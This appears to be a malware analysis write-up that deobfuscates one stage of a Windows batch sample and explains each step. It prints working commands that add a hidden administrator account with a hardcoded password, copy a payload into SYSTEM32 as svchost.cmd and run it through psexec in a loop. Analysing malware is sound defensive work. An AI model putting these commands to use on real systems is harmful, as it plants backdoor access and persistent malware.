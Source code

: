 ### Analysis of deobfuscated ":6"
```bash
cd temp
set "string9=bmV0IHVzZXIgYWRteSBoNHgwcjY5IC9hZGQ="
for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string9"""^)^)') do 
set "decoded9=i"powershell cmd /c start /b decoded9 >nul
set "string10=bmV0IGxvY2FsZ3JvdXAgQWRtaW5pc3RyYXRvciBhZG15IC9hZGQ="
for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string10"""^)^)') do 
set "decoded10=i"powershell cmd /c start /b decoded10 >nul
start /i /min /wait /B temp\psexec \\127.0.0.1 -u admy -p "h4x0r69" -d cmd.exe /c 0
set "string12=bmV0IHVzZSBcXDEyNy4wLjAuMVxpcGMkIGg0eDByNjkgL3U6ImFkbXki"
for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string12"""^)^)') do 
set "decoded12=i"powershell cmd /c start /b decoded12 >nul
COPY 0 \\127.0.0.1\ADMIN$\SYSTEM32\svchost.cmd /ystart /i /min /wait /B temp\psexec \\127.0.0.1 -u admy -p "h4x0r69" -d cmd.exe /c 0
timeout /t 900 >nul
goto 3
```
Decoded base64 strings:
```bash
net user admy h4x0r69 /add
net localgroup Administrator admy /add
net use \\127.0.0.1\ipc$ h4x0r69 /u:"admy"
COPY 0 \\127.0.0.1\ADMIN$\SYSTEM32\svchost.cmd /y
start /i /min /wait /B temp\psexec \\127.0.0.1 -u admy -p "h4x0r69" -d cmd.exe /c 0
```


#### Conclusion:
* Adds user admy with password "h4x0r69"
* Adds admy to Administrator group
* Uses null session connection with admy
* Copies "service.cmd" into "\\127.0.0.1\ADMIN$\SYSTEM32\svchost.cmd"
* Uses psexec to remotly execute cmd.exe as admy


## Questions/ Missing Information
* At this point one key information missing is how the attacker knowns the IP of the victim host to access it? Will its just scan several hosts for the known FTP or open port? This is likely not the case and either I missed this information or the sample present on AppAnyRun is not the inital stage and that can be observed earlier in the infection chain.
* What is the meaning of the curl -T command with what appears to be domains and the ftp?  
* Im still unaware on the usage of curl -T with what appears to be domains (vasb.qng, fgrny.qng, ybt.gzc) and ftp. Could this be related to the first question?
